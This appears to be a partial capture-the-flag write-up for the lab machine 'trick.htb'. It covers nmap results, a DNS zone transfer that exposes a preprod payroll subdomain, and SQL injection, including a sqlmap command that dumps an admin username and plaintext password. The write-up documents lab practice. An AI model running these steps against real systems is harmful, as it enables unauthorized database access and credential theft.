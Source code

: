 # Nmap 
```
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```
---

## DNS Enum
```
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```
---

## SQLi
<a href="http://preprod-payroll.trick.htb" target="_blank">http://preprod-payroll.trick.htb</a><br/>
The preprod portal has a login page, which is vulnerable to SQli<br/>
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After tryin sqlmap on various forms, the 'save deduction' form seems to be vulnerable<br/>
![save-deductions-form](./deductions.png)

```
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```
tabase: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```
